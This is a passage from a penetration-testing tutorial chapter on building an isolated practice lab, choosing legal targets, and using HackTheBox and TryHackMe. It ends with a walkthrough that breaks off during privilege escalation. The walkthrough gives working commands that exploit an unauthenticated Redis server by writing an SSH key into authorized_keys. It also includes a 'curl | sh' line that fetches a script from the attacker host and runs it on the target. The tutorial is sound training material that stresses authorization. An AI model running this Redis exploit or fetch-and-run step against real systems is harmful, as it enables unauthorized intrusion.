








This is Chapter 3 of the Penetration Testing series. Chapter 2 finished the pre-engagement paperwork — scope, rules of engagement, authorization. This chapter builds the place where you develop the skills those engagements demand, and where every dangerous technique in the rest of this notebook is safe to run: your own lab, plus the online platforms that host thousands of intentionally vulnerable machines.

The Security Foundations notebook already walked through the raw mechanics of virtualization, installing Kali or Parrot, and standing up a first vulnerable VM. This chapter assumes that groundwork and goes further in the direction a penetration tester actually needs: which *targets* to attack and in what order, how the two dominant practice platforms — HackTheBox and TryHackMe — really work under the hood, how to structure deliberate practice so you improve instead of just collecting flags, and how to keep the entire operation legal and isolated. A lab is not a trophy shelf of installed tools; it is a training regime with a reset button.

There is a reason this chapter comes right after scoping and RoE rather than before. In Chapter 2 you learned that on a real engagement, authorization is the single line between testing and a crime. Practice platforms exist precisely so you can run the crime-shaped keystrokes — brute force, exploitation, privilege escalation, data exfiltration — against machines whose owners have already, publicly, authorized exactly that. Understanding *why* HTB and THM are lawful practice while your neighbour's router is not is the same authorization principle from Chapter 2, applied to learning.

---

## Part 1: What a Practice Lab Is Actually For

A practice lab exists to let you fail safely, repeatedly, and fast. Three properties make that possible, and every design decision in this chapter serves one of them.

1. **Isolation.** Nothing you do in the lab can reach a system you are not authorized to touch — not your host, not your home network, not the internet at large. Isolation is what makes "run this exploit and see" a learning experiment rather than an incident.
2. **Resettability.** You can return any target, and your own attacker box, to a known clean state in seconds. Resettability is what lets you try the destructive path, break everything, and start again — which is how you actually learn what an exploit does.
3. **Realistic targets.** The things you attack behave like real systems, with real services, real misconfigurations, and real vulnerabilities — not toy simulations. Realism is what makes the skills transfer to an engagement.

Miss isolation and your lab is a liability. Miss resettability and you will be too cautious to learn. Miss realism and you will be very good at a game that resembles nothing.



> **The distinction that matters:** a *local lab* (VMs on your machine) gives you total control, unlimited resets, and works offline — ideal for deep, repeatable study of one technique. A *platform lab* (HackTheBox, TryHackMe) gives you an endless, professionally-curated supply of fresh targets, community writeups, and a difficulty ladder — ideal for breadth and momentum. Serious practitioners use both: platforms for volume and variety, a local lab for the days you want to tear one specific thing apart.

---

## Part 2: The Attacker Machine — Kali, Parrot, and Keeping It Fast

The Security Foundations lab chapter covered installing Kali and Parrot. Here is what actually matters once you are past installation and into daily use.

### Kali vs Parrot in practice

Both are Debian-based, both ship the same core toolset, both are free. The practical differences:

| Dimension | Kali Linux | Parrot Security OS |
|---|---|---|
| Base | Debian testing | Debian stable |
| Default desktop | Xfce (light) | MATE (light) |
| Resource footprint | Slightly heavier | Slightly lighter — better on 4 GB RAM |
| Tool curation | Larger default set; `kali-linux-headless`/`-default`/`-everything` metapackages | Curated; includes anonymity tooling (AnonSurf) by default |
| Update cadence | Rolling, fast-moving | Rolling but more conservative |
| Who it suits | The default choice; most writeups assume it | Low-spec machines, privacy-focused workflows |

For someone starting out: pick Kali unless you are on very limited RAM, because the overwhelming majority of tutorials, box writeups, and tool docs assume Kali paths and package names. The choice is not important enough to agonise over — the skills are identical.

### Do not run the full metapackage by default

A fresh Kali with `kali-linux-everything` is a 100 GB+ install of tools you will never open. Prefer a lean base and install tools on demand:

```bash
# See what the metapackages contain before committing to one
apt show kali-linux-default 2>/dev/null | grep -A3 Depends | head
# Install a single tool when a box actually needs it
sudo apt update && sudo apt install -y seclists gobuster ffuf
```

Command notes: `apt show <pkg>` prints package metadata including its dependency list; `apt install -y` answers "yes" to the confirmation prompt automatically. `seclists` is the single most useful supporting package — it installs the wordlists (`/usr/share/seclists/`) that nearly every enumeration tool needs.

### Keep the attacker box resettable too

People snapshot their targets and forget their attacker box. But you will break Kali — a bad `apt upgrade`, a Python environment you wrecked installing a tool with `pip` as root, a config you mangled at 1 a.m. Take a clean snapshot of Kali immediately after first setup (updates applied, `seclists` installed, SSH keys generated, tmux/zsh configured the way you like), and label it `kali-clean-baseline`. When your box gets into a weird state, revert instead of debugging.

**Security relevance:** the habit of never installing tools with `sudo pip install` — using `pipx`, a virtualenv, or the distro package instead — is the same discipline you will need on client jump boxes, where polluting the system Python is both rude and a stability risk.

### The tooling you will actually reach for constantly

You do not need to memorise 600 tools. A working penetration tester leans on a small core daily and reaches for the long tail rarely. The daily core, by phase:

| Phase | Everyday tools |
|---|---|
| Recon / enumeration | `nmap`, `ffuf`/`gobuster`, `whatweb`, `nikto`, `dig`, `nc`/`ncat` |
| Web | Burp Suite, browser dev tools, `curl`, `sqlmap` |
| Credentials | `hydra`, `hashcat`/`john`, `crackmapexec`/`nxc` |
| Exploitation | `searchsploit`, Metasploit (`msfconsole`), manual PoCs |
| Post-exploitation | `linpeas`/`winpeas`, `pspy`, `chisel`, `socat` |
| Windows/AD | `impacket` suite, `bloodhound`, `evil-winrm`, `nxc` |
| Notes | Obsidian / CherryTree / a Markdown file, plus `flameshot`/`scrot` |

Every one of these gets a from-scratch introduction in the chapter where it first becomes essential. Here the point is only to recognise the shape of the toolkit.

---

## Part 3: VM Network Modes — Choosing the Right One

This is the single most common thing beginners get wrong, and getting it wrong is how a "practice" attack accidentally reaches the internet or your home LAN. Every hypervisor offers the same four modes under different names.

| Mode | What it does | Reaches internet? | Reaches your LAN? | VMs reach each other? | Use it for |
|---|---|---|---|---|---|
| **NAT** | VM shares the host's IP via translation | Yes | No (usually) | Depends | Attacker box that needs updates/VPN, isolated from your LAN |
| **Host-only** | Private network between host and VMs only | No | No | Yes | Fully isolated target lab — the safe default for vulnerable VMs |
| **Bridged** | VM appears as a real device on your physical LAN | Yes | Yes | Yes | Almost never for a lab — this exposes targets to your home network |
| **Internal / LAN segment** | Private network between VMs only, not even the host | No | No | Yes | Multi-VM lab networks (AD lab) with an attacker that has a second NIC |



> **The safe default:** put every deliberately-vulnerable VM on a **host-only** network. Give your Kali box *two* NICs — one NAT adapter for updates and platform VPNs, one host-only adapter on the same network as the targets. This way Kali can reach the internet and the targets, but the targets can reach neither the internet nor your home LAN. A vulnerable box on **bridged** is a genuinely dangerous mistake: it is a known-exploitable machine sitting on your home network, reachable by anything else on it.

### Verifying isolation, not assuming it

Never trust the label in the settings dialog — verify from inside the target:

```bash
# From the vulnerable target VM: can it reach the internet? (it must NOT)
ping -c 2 8.8.8.8
```

```text
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
--- 8.8.8.8 ping statistics ---
2 packets transmitted, 0 received, 100% packet loss, time 1001ms
```

100% packet loss is the *correct, desired* result for a target on host-only. If it replies, the VM is not isolated — stop and fix the network mode before doing anything else. Then confirm the attacker box can see the target:

```bash
# From Kali, on the host-only NIC:
nmap -sn 192.168.56.0/24
```

```text
Nmap scan report for 192.168.56.101
Host is up (0.00042s latency).
Nmap scan report for 192.168.56.20   # <- the target
Host is up (0.00038s latency).
```

---

## Part 4: Snapshot & Reset Discipline

Snapshots are the feature that makes a lab worth having. The discipline around them is simple and worth making automatic.

- **Snapshot before you touch a target**, labelled `clean`. This is your reset point.
- **Snapshot before a risky step** you might want to redo — right before firing an exploit you are unsure about, or before a privilege-escalation attempt that might brick the box.
- **Revert freely.** The whole point is that reverting is cheap. If a box gets weird, do not debug the box — revert to `clean` and re-run from your notes.
- **Snapshot your attacker box** after meaningful setup changes, so a broken tool install is a 20-second revert.



> **Storage reality:** snapshots are diffs, not full copies, but they grow, and a chain of twenty snapshots slows the VM and eats disk. Keep two or three meaningful ones per box, delete the rest, and when a box is finished, revert to `clean` and delete the exploration snapshots. A local VulnHub box plus its snapshots is 8–20 GB; budget accordingly.

---

## Part 5: The Taxonomy of Legal Targets

There is a large, well-organised world of things you are explicitly allowed to attack. Knowing the map lets you pick the right target for what you are trying to learn.



### Local vulnerable VMs

| Target | What it teaches | Difficulty |
|---|---|---|
| **DVWA** (Damn Vulnerable Web App) | Core web vulns (SQLi, XSS, CSRF, file upload) with adjustable security levels | Beginner |
| **OWASP Juice Shop** | Modern JS single-page app vulns; gamified challenge tracker | Beginner–Intermediate |
| **bWAPP / WebGoat** | Broad catalogue of web vuln classes with lessons | Beginner |
| **Metasploitable 2** | Classic network-service exploitation; a playground for Nmap + Metasploit | Beginner |
| **Metasploitable 3** | Windows and Linux, more realistic, built with Packer | Intermediate |
| **VulnHub boxes** | Full boot-to-root machines you download and run offline | All levels |
| **GOAD** (Game of Active Directory) | A whole multi-host AD environment with real attack paths | Advanced |

VulnHub deserves special mention: it is a free library of downloadable, community-made boot-to-root VMs. You import the OVA, put it on host-only, and attack it entirely offline. Because writeups exist for almost all of them, VulnHub is the ideal place to practise the *full* kill chain — recon to root — at your own pace with a safety net.

### Online platforms (covered in depth in Parts 6–7)

HackTheBox and TryHackMe are the two dominant platforms. PortSwigger's Web Security Academy is the definitive free resource for web vulnerabilities specifically. pwn.college is the best structured path for binary exploitation. picoCTF and HTB's CTF events teach the competition format.

### Why every one of these is legal — and your neighbour's router is not

Each of these targets carries explicit, standing authorization from its owner to attack it, in exactly the way Chapter 2 described unilateral authorization: VulnHub authors publish boxes *so that* you will attack them; HTB and THM's terms of service grant you permission to attack the machines they host, and only those. That permission does not extend one inch beyond the platform. Attacking HTB's own infrastructure, other users' attacker boxes, or anything outside the target machines is a violation — and attacking anything off-platform is simply an unauthorized intrusion. The lab is lawful because someone said yes, in writing, to these specific systems.

---

## Part 6: How HackTheBox Actually Works

HackTheBox (HTB) is a subscription platform hosting a large, constantly-refreshed set of vulnerable machines and challenges. Understanding its structure saves you a lot of confusion.

### The pieces

- **Machines ("boxes"):** full vulnerable VMs you attack over a VPN. Each has a **user flag** (initial foothold, a low-privilege user) and a **root/system flag** (full compromise). Rated Easy → Insane.
- **Active vs Retired machines:** *Active* boxes are current, have no official writeups (posting one violates the rules until retirement), and are how you earn points/rank. *Retired* boxes (available to VIP subscribers) have official writeups and are the best for learning, because you can get unstuck.
- **Challenges:** bite-sized puzzles in categories — Web, Crypto, Reversing, Pwn, Forensics, OSINT, Steganography — not full machines.
- **Pro Labs:** large, multi-host simulated corporate networks (Dante, Offshore, RastaLabs, Cybernetics) that teach pivoting and AD at scale. This is the closest thing to a real internal engagement.
- **HTB Academy:** a separate, structured, module-based learning platform (theory + guided exercises + skill assessments). Academy teaches; the main platform tests.
- **Seasons:** time-boxed competitive tracks with fresh weekly boxes and a rank/reward system.

### Connecting: the VPN

You attack HTB machines through an OpenVPN tunnel. The platform gives you a `.ovpn` config file; you connect, and your Kali box gets an address on HTB's network from which the target is reachable.

```bash
# Connect to the HTB lab VPN (keep this terminal open; it holds the tunnel)
sudo openvpn --config ~/htb/lab_yourname.ovpn
```

```text
... Initialization Sequence Completed
```

```bash
# In another terminal, confirm you got a tunnel interface and can see the target
ip addr show tun0 | grep inet
ping -c 2 10.10.11.42     # the target IP shown on the machine's page
```

```text
    inet 10.10.14.7/23 scope global tun0
PING 10.10.11.42 ... 2 received, 0% packet loss
```

Command notes: `openvpn --config <file>` establishes the tunnel using the downloaded profile; it must keep running, so leave that terminal alone. `ip addr show tun0` confirms the VPN interface exists and shows *your* attacking IP (`10.10.14.7` here) — the address the target sees, and the one you would put in a report's source-IP list. If `ping` to the target fails, the machine may not be started: on HTB you often must click **Spawn Machine** first.

```mermaid
sequenceDiagram
    participant You as Kali (10.10.14.7)
    participant VPN as HTB VPN gateway
    participant Box as Target (10.10.11.42)
    You->>VPN: openvpn --config lab.ovpn
    VPN-->>You: tun0 up, assigned 10.10.14.7
    You->>VPN: click "Spawn Machine" (web UI)
    VPN->>Box: boot target VM
    You->>Box: nmap / exploit over tunnel
    Box-->>You: user flag -> root flag
    You->>VPN: submit flag hashes in web UI
```

### The machine lifecycle and etiquette

A box is a *shared* instance (or, on VIP+, a private one you spawn). Rules that keep the platform usable:

- **Do not attack the VPN gateway or other users' machines** — only the target IP.
- **Do not run destructive actions** that break the box for everyone (deleting files, changing the root password on a shared box). Reset the box instead of ruining it.
- **Do not post writeups for active machines.** Wait for retirement.
- **Clean up after yourself** if you set up persistence, on shared boxes especially.

These are the same courtesies and boundaries as a real engagement, scaled down — which is exactly why practising them here builds the right instincts.

---

## Part 7: How TryHackMe Works — and Which to Start With

TryHackMe (THM) is the other dominant platform, and for most beginners it is the better *starting* point.

### THM's model

- **Rooms:** self-contained lessons, each mixing explanation, a deployable vulnerable machine, and questions that guide you to the answers. Rooms are far more hand-held than HTB boxes.
- **Learning paths:** ordered sequences of rooms building a skill (e.g. *Complete Beginner*, *Jr Penetration Tester*, *Web Fundamentals*, *Offensive Pentesting*).
- **Deploy button + AttackBox:** THM can give you a browser-based Kali ("AttackBox") so you need nothing installed, or you connect your own Kali over VPN as with HTB.
- **Difficulty and guidance:** rooms tell you what to do and check your answers, which makes them ideal when you are still learning *what questions to ask* — the hardest part of hacking for a beginner.

### HTB vs THM — the honest comparison

| Dimension | TryHackMe | HackTheBox |
|---|---|---|
| Best for | Absolute beginners; structured learning | Building independent skill; realistic difficulty |
| Guidance | High — rooms explain and check answers | Low — a box gives you an IP and nothing else |
| Structure | Explicit learning paths | Looser; Academy provides structure |
| Realism | Some rooms simplified for teaching | Boxes feel like real, if quirky, systems |
| The gap it exposes | — | "I have an IP and no idea what to do" — the exact skill THM builds first |
| Cost | Free tier is generous; cheap subscription | Free tier limited; VIP unlocks retired boxes |

> **The recommended path for a beginner:** start on **TryHackMe** to learn the *methodology* — what to enumerate, what the results mean, what to try next — using the *Complete Beginner* and *Jr Penetration Tester* paths. Once you can consistently reason your way through a guided room, move to **HackTheBox retired machines** with a writeup open in another tab, gradually weaning off the writeup. Then attempt **active HTB boxes** unaided. This progression — guided → guided-with-safety-net → unaided — is how you build genuine independence instead of a flag-copying habit.

---

## Part 8: A Deliberate Skill-Building Path

Collecting flags is not the same as improving. Deliberate practice means working at the edge of your ability, with feedback, on purpose. Here is a progression that actually builds a penetration tester.



Principles that make the path work:

- **Struggle first, hint second, writeup last.** Set a timer (say 30 minutes) before you look at a hint. The struggle is where the learning happens; a writeup consulted too early teaches you to copy, not to think.
- **When you use a writeup, re-do the box from memory afterwards.** If you cannot reproduce it without the writeup, you learned nothing durable.
- **Keep a personal methodology doc** and update it every box: "when I see port 6379 open, I check for unauthenticated Redis." Your own accumulated checklist is worth more than any tool.
- **Deliberately over-enumerate early.** Beginners lose because they stop enumerating too soon. The finding is almost always in something you did not look at yet.
- **Target your weaknesses.** If you are strong on web and weak on AD, do AD boxes even though they are less fun. Comfort is the enemy of improvement.

---

## Part 9: Hands-On Lab — Owning a Box End to End

This walkthrough demonstrates the full methodology against a Linux boot-to-root target on a host-only network (the same flow applies to a THM/HTB machine over VPN — only the IP source differs). The target here is `192.168.56.20`. Every command is annotated, and the note-taking is shown because *the notes are the deliverable*.

### 9.1 Set up the engagement folder first

Before touching the target, create structure. This mirrors real engagement hygiene from Chapter 1.

```bash
box="acme-lab-01"; ip="192.168.56.20"
mkdir -p ~/labs/$box/{scans,loot,exploits,notes}
cd ~/labs/$box
echo "# $box ($ip)"                 >  notes/README.md
echo "## Actions log"               >> notes/README.md
echo "- $(date -u +%FT%TZ) start"   >> notes/README.md
```

Command notes: `mkdir -p a/{b,c}` brace-expands to create several subdirectories at once; `-p` creates parents and does not error if they exist. The `date -u +%FT%TZ` gives a UTC ISO-8601 timestamp — exactly the format an actions log wants.

### 9.2 Enumeration — the phase that wins boxes

Start with a fast full-port scan, then a deep scan of only the open ports.

```bash
# Fast: all 65535 TCP ports, no DNS, aggressive timing, min rate
nmap -p- --min-rate 2000 -T4 -Pn -oN scans/allports.txt $ip
```

```text
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
6379/tcp open  redis
```

Command notes: `-p-` scans all 65,535 ports (default is the top 1,000, which misses things like the `6379` here); `--min-rate 2000` pushes at least 2,000 packets/sec; `-T4` is aggressive timing suitable for a lab/LAN; `-Pn` skips host-discovery ping (treat the host as up — essential when ICMP is filtered); `-oN` writes normal-format output to a file. **Always save scan output** — you will refer back to it constantly.

```bash
# Deep: version + default scripts, only the ports we found open
nmap -p 22,80,6379 -sC -sV -oN scans/deep.txt $ip
```

```text
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Acme Internal Dashboard
6379/tcp open  redis   Redis key-value store 5.0.7
```

Command notes: `-sV` probes each open port to fingerprint the exact service and version (the version is what you feed to `searchsploit`); `-sC` runs Nmap's default script set (`--script=default`) for quick, safe enumeration like titles, headers, and common misconfigurations. Scanning only the three known-open ports is far faster than re-scanning everything.

Enumerate the web service:

```bash
whatweb http://$ip                                        # tech fingerprint
ffuf -u http://$ip/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt \
     -mc 200,301,302,401 -o scans/ffuf-root.json
```

```text
http://192.168.56.20 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTTPServer[Ubuntu]

/admin        [Status: 301]
/backup       [Status: 200]
/index.html   [Status: 200]
```

Command notes: `whatweb` identifies web technologies (server, framework, CMS) from headers and page content. `ffuf` is a fast web fuzzer: `-u` gives the URL with `FUZZ` as the injection point, `-w` the wordlist, `-mc` "match codes" limits output to interesting HTTP statuses (200 OK, 301/302 redirects, 401 auth-required), `-o` saves JSON. `/backup` returning 200 is a lead worth chasing.

### 9.3 The foothold — unauthenticated Redis

Port 6379 running Redis with no auth is a classic foothold. First, meet the tool.

**Tool from scratch — `redis-cli`.** `redis-cli` is the official command-line client for Redis, an in-memory key-value database. It exists to let you run Redis commands interactively or via a script. Install and connect:

```bash
sudo apt install -y redis-tools
redis-cli -h 192.168.56.20            # -h = host; default port 6379 assumed
```

```text
192.168.56.20:6379> INFO server
# Server
redis_version:5.0.7
os:Linux 5.4.0-42-generic x86_64
config_file:/etc/redis/redis.conf
192.168.56.20:6379> CONFIG GET dir
1) "dir"
2) "/var/lib/redis"
```

An unauthenticated Redis that can write files (`CONFIG SET dir`) is exploitable in several classic ways — writing an SSH `authorized_keys` file, or a webshell into the web root. Demonstrating the *minimum sufficient proof* from Chapter 2, the intent is to prove access, then document it. Writing our SSH key into `redis`'s home to get a shell:

```bash
# Generate a keypair, then push it as a Redis value and save it as authorized_keys
ssh-keygen -t ed25519 -f ./loot/redis_key -N ""
(echo -e "\n\n"; cat ./loot/redis_key.pub; echo -e "\n\n") > loot/key.txt
redis-cli -h $ip flushall
cat loot/key.txt | redis-cli -h $ip -x set payload
redis-cli -h $ip config set dir /var/lib/redis/.ssh
redis-cli -h $ip config set dbfilename authorized_keys
redis-cli -h $ip save
```

```text
OK
OK
OK
OK
```

Command notes: `ssh-keygen -t ed25519 -f <file> -N ""` makes a new key with no passphrase; the newlines around the public key stop it colliding with Redis's own save format; `-x` makes `redis-cli` read the value from stdin; `config set dir`/`dbfilename` redirect where Redis writes its database file; `save` flushes it to disk — now `authorized_keys` in the `redis` user's `.ssh`.

```bash
ssh -i ./loot/redis_key redis@$ip
```

```text
redis@acme-lab-01:~$ id
uid=112(redis) gid=118(redis) groups=118(redis)
redis@acme-lab-01:~$ cat /home/*/user.txt 2>/dev/null || echo "user flag not here yet"
```

Log it immediately:

```bash
echo "- $(date -u +%FT%TZ) foothold via unauth Redis (6379) -> ssh as 'redis'" >> notes/README.md
```

### 9.4 Privilege escalation — enumerate, then exploit

**Tool from scratch — `linpeas`.** `linpeas.sh` is a Linux privilege-escalation enumeration script. It automates the hundreds of checks a human would do by hand — SUID binaries, writable files, cron jobs, kernel version, credentials in config files — and colour-codes findings by likely exploitability. Get it onto the box:

```bash
# On Kali: serve linpeas over a quick HTTP server
cd /opt && wget -q https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
python3 -m http.server 8000
```

```bash
# On the target: pull and run it, tee output back for your notes
cd /tmp
curl -s http://192.168.56.7:8000/linpeas.sh | sh | tee /tmp/linpeas.out
```

